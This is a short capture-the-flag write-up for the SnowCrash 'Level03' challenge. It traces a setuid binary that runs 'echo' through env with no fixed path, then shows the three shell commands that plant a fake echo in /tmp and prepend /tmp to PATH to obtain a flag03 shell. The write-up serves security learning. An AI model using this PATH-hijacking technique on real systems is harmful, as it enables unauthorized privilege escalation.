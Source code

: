 # Level03

We have a file with the `setuid` which means that the binary is executed as its owner so in this case `flag03`.
```shell
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff6f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                             = 2003
geteuid()                                                                             = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                   = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                   = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                = 0
+++ exited (status 0) +++
```
We see that the binary runs `echo` from the system without giving a path and the `env` is given to the binary.
This means that we can overwrite the env variable `PATH` to add a path with a custom `echo` which will give us a shell.

```shell
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
export PATH="/tmp:$PATH"
```

Then once you run `./level03`, a flag03 shell pops